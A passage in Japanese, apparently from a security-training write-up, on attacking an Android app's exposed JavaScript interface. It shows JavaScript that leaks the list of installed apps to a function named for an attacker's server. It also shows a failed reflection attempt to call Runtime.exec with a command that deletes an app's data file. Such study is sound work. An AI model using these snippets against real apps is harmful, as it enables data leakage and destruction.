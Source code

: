 また、下記のような JavaScript を実行させることで、インストール済みのアプリ一覧を漏洩させることが出来ます。

```javascript
var ia = android.getPackageManager().getInstalledApplications(9344);
var apps = [];
for (var x = 0; x < ia.size(); x++) {
  sendDataToServerOfAtaccker(ia.get(x));
}
```

他にもリフレクションを経由して java.lang.Runtime を取得し、
exec メソッドを呼び出すことで OS コマンドインジェクションが出来るのではないかと考えました。
しかし、下記のコードでは上手くいかず、実際にコマンドを注入させる方法は分かりませんでした。

```javascript
var command =
  "rm /data/data/com.example.lambdasawa.seccamp/files/critical_data";
var class_ = android.getClass();
var runtimeClass = class_.forName("java.lang.Runtime");
var runtime = runtimeClass.getRuntime();
runtime.exec(command, null, null);
```
